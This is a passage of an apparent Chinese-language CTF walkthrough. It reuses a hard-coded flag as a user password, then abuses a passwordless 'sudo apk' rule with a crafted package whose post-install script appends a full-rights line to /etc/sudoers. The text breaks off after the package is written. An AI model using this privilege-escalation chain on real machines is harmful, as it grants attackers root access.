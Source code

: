 ```bash
import hashlib

FLAG = "flag{superuser/f124cf868d5e3fa5a7de39f80a2f9a0e}"

# ... 此处省略大量代码 ...
```

有捷径，哈哈哈

代码中硬编码了一个 flag：`flag{superuser/f124cf868d5e3fa5a7de39f80a2f9a0e}`。根据 flag 的格式，我们可以推断出存在一个名为 `superuser` 的用户，其密码可能是 `f124cf868d5e3fa5a7de39f80a2f9a0e`。

使用此凭据切换用户成功。

```bash
localhost:/opt/server$ cd /home/
localhost:/home$ su superuser
Password: 
/home $ id
uid=1001(superuser) gid=1001(superuser) groups=300(abuild),1001(superuser)
```

## 2. 提权至 root

成为 `superuser` 后，检查 `sudo` 权限。

```bash
/home $ sudo -l
User superuser may run the following commands on localhost:
    (ALL) NOPASSWD: /sbin/apk
```

这是一个关键突破口！我们可以无需密码以 root 权限运行 `apk` 命令。`apk` 是 Alpine Linux 的包管理器。我们可以创建一个包含恶意安装后脚本的自定义 `.apk` 包，然后用 `sudo apk` 来安装它。该脚本将以 root 权限执行。

**提权步骤：**

1.  **创建恶意包工作目录和文件**
    *   `APKBUILD`：定义包名、版本等元信息。
    *   `pwn.post-install`：安装后要执行的脚本。我们可以在这里写入提权命令。

```bash
# 创建工作目录
mkdir /tmp/malicious-pkg
cd /tmp/malicious-pkg

cat << 'EOF' > APKBUILD
pkgname=pwn
pkgver=1.0.0
pkgrel=0
pkgdesc="pwn"
arch="noarch"
license="GPL"
install="pwn.post-install"
package() {
    mkdir -p "$pkgdir"
}
EOF

# 写入恶意安装后脚本 (例如：给予 superuser 完全的 sudo 权限)
cat << 'EOF' > pwn.post-install
#!/bin/bash
echo 'superuser ALL=(ALL:ALL) NOPASSWD: ALL' >> /etc/sudoers
EOF
```
